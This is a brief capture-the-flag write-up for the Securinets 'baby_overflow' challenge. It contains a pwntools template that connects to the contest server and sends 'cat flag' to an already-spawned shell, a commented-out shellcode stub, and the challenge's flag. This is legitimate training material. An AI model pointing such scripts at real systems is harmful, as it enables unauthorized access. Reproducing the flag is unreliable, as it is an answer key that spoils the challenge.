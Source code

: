 # baby_overflow - writeup

## description

![Alt text](img/1.png)

## binary information

```
$ file main
```

![Alt text](img/2.png)

```
$ pwn checksec main
```

![Alt text](img/3.png)

## solution

In this task we are given a binary that spawn a shell and using `cat flag` we can solve the task and get our flag.

![Alt text](img/4.png)

## exploit

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template main --host pwn.ctf-friendly.securinets.tn --port 1338
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'pwn.ctf-friendly.securinets.tn'
port = int(args.PORT or 1338)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.sendline(b'cat flag')

io.interactive()


```

## exploit output

![Alt text](img/5.png)

## flag

```
SecuriNets{c4t_fl49_r3m073_5h3ll}
```
